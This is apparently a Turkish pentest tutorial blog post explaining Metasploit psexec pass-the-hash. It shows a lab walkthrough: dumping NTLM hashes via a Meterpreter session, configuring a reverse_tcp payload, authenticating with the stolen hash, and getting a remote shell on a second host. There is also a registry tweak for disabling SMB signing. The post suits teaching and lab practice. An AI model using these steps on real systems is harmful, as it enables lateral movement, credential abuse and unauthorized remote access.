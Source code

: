 ```yaml
---
draft: false

title:  'MSF PSEexec Pass the Hash'
date: '2017-05-25T13:17:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'psexec modülü, genellikle pentest işlemleri esnasında kullanılır. Bu modül sayesine hedef sisteme giriş yapmanız mümkün hale gelmektedir. Alışılmış kullanımda, sistemin kullanıcı adı ve parolasını elde ettiğiniz ve bunu exploit modülüne değişken olarak girmeniz yeterlidir.' 
 
url:  /tr/msf-pseexec-pass-the-hash/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



psexec modülü, genellikle pentest işlemleri esnasında kullanılır. Bu modül sayesine hedef sisteme giriş yapmanız mümkün hale gelmektedir. Alışılmış kullanımda, sistemin kullanıcı adı ve parolasını elde ettiğiniz ve bunu exploit modülüne değişken olarak girmeniz yeterlidir.



Normalde izlenen yol, sistemde meterpreter shell açıldığında `fgdump`, `pwdump` veya `cachedump` komutlarıyla parola elde etmektir. Bu aramalar esnasında bulduğunuz `hash` değerleri olursa, bunları çeşitli araçlar kullanarak çözmeye ve parolaların açık halini elde etmeye çalışırız.



Oysa bazen başka bir durumla karşı karşı kalabilirsiniz. Bir sistemde `Administrator` yetkili bir oturum açtınız ve kullanıcının `hash` olarak formatlı parolasını elde ettiniz. Bu oturum açtığınız sistem üzerinden aynı ağda bulunan başka bir sisteme bağlanmak istediğinizde, `Administrator` kullanıcısının parolasını çözmenize gerek olmayabilir. Genellikle ağdaki cihazlar bu `hash` değerleri kulanarak haberleşirler. psexec modülü, bulduğunuz `hash` değerini parola olarak kullanmanıza olanak sağlar.



UYARI-1:


<!-- wp:quote -->
<blockquote class="wp-block-quote">
NTLM kullanan sistemde, bulacağınız `hash` değeri `******NOPASSWORD*******:8846f7eaee8fb117ad06bdd830b7586c` formatındaysa, baş taraftaki `******NOPASSWORD*******` kısmını 32 adet sıfır ile değiştirerek `psexec` içine değişken olarak girmeniz gerekir. Yani değer, `00000000000000000000000000000000:8846f7eaee8fb117ad06bdd830b7586c` şeklinde olmalıdır.
</blockquote>
<!-- /wp:quote -->


UYARI-2:


<!-- wp:quote -->
<blockquote class="wp-block-quote">
Lab ortamında, doğru hash değeri girdiğiniz halde `STATUS_ACCESS_DENIED (Command=117 WordCount=0)` hatası alıyorsanız, hedef Windows sisteminin Registry ayarlarında `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters` içerisinde `RequireSecuritySignature` değerini `0` olarak ayarlamalısınız.
</blockquote>
<!-- /wp:quote -->


## Hashdump



Aşağıda, bir exploit kullanılarak Meterpreter oturumu açılmıştır ve `post/windows/gather/hashdump` modülü ile sistemde hash değerleri bulunmak istenmektedir.


```bash
**[*********]** Meterpreter session 1 opened **(**192.168.57.133:443 -> 192.168.57.131:1042**)**

meterpreter **>** run post/windows/gather/hashdump 

**[*********]** Obtaining the boot key...
**[*********]** Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
**[*********]** Obtaining the user list and keys...
**[*********]** Decrypting user keys...
**[*********]** Dumping password hashes...

Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
meterpreter **>**```



Görüldüğü gibi, `RHOST: 192.168.57.131` IP adresinde bulunan Administrator kullanıcısına ait `e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c` değeri elde edilmiştir.



Şimdi bu hash değerini kullanarak `RHOST: 192.168.57.140` IP adresine oturum açmayı deneyelim. Tabii ki önceden yaptığınız taramada aynı ağda `192.168.57.140` IP adresinde ve `445` portunda `SMB` servisinin çalıştığını keşfettiğinizi kabul ediyoruz.



## psexec



Önce `msfconsole` ile Metasploit Framework başlatalım ve `psexec` modülünü yükleyelim.


```bash
root@kali:~# msfconsole

                ##                          ###           ##    ##
 ##  ##  #### ###### ####  #####   #####    ##    ####        ######
####### ##  ##  ##  ##         ## ##  ##    ##   ##  ##   ###   ##
####### ######  ##  #####   ####  ##  ##    ##   ##  ##   ##    ##
## # ##     ##  ##  ##  ## ##      #####    ##   ##  ##   ##    ##
##   ##  #### ###   #####   #####     ##   ####   ####   #### ###
                                      ##


       **=[** metasploit v4.2.0-dev **[**core:4.2 api:1.0]
+ -- --**=[** 787 exploits - 425 auxiliary - 128 post
+ -- --**=[** 238 payloads - 27 encoders - 8 nops
       **=[** svn r14551 updated yesterday **(**2012.01.14**)**

msf **>** search psexec

Exploits
**========**

   Name                       Description
   ----                       -----------
   windows/smb/psexec         Microsoft Windows Authenticated User Code Execution
   windows/smb/smb_relay      Microsoft Windows SMB Relay Code Execution

msf **>** use exploit/windows/smb/psexec
msf exploit**(**psexec**)** **>** set payload windows/meterpreter/reverse_tcp
payload **=>** windows/meterpreter/reverse_tcp
msf exploit**(**psexec**)** **>** set LHOST 192.168.57.133
LHOST **=>** 192.168.57.133
msf exploit**(**psexec**)** **>** set LPORT 443
LPORT **=>** 443
msf exploit**(**psexec**)** **>** set RHOST 192.168.57.140
RHOST **=>** 192.168.57.140
msf exploit**(**psexec**)** **>** show options

Module options:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.57.140   yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPass                   no        The password **for **the specified username
   SMBUser  Administrator    yes       The username to authenticate as


Payload options **(**windows/meterpreter/reverse_tcp**)**:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LHOST     192.168.57.133   yes       The local address
   LPORT     443              yes       The local port


Exploit target:

   Id  Name
   --  ----
   0   Automatic```



## SMBPass



Yukarıda görüldüğü gibi `exploit/windows/smb/psexec` modülünde `SMBPass` değişkenini girmemiz gerekmektedir. `SMBPass` değişkenine elimizde bulunan hash değerini girelim ve modülü `exploit` komutuyla çalıştıralım.


```bash
msf exploit**(**psexec**)** **>** set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
SMBPass **=>** e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit**(**psexec**)** **>** exploit

**[*********]** Connecting to the server...
**[*********]** Started reverse handler
**[*********]** Authenticating as user 'Administrator'...
**[*********]** Uploading payload...
**[*********]** Created \KoVCxCjx.exe...
**[*********]** Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.57.140[\svcctl] ...
**[*********]** Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.57.140[\svcctl] ...
**[*********]** Obtaining a service manager handle...
**[*********]** Creating a new service **(**XKqtKinn - "MSSeYtOQydnRPWl"**)**...
**[*********]** Closing service handle...
**[*********]** Opening service...
**[*********]** Starting the service...
**[*********]** Removing the service...
**[*********]** Closing service handle...
**[*********]** Deleting \KoVCxCjx.exe...
**[*********]** Sending stage **(**719360 bytes**)**
**[*********]** Meterpreter session 1 opened **(**192.168.57.133:443 -> 192.168.57.140:445**)**

meterpreter **>** shell
Process 3680 created.
Channel 1 created.
Microsoft Windows **[**Version 5.2.3790]
**(**C**)** Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>
```



Gördüğünüz gibi `192.168.57.140` IP adresinde oturum açılmıştır.
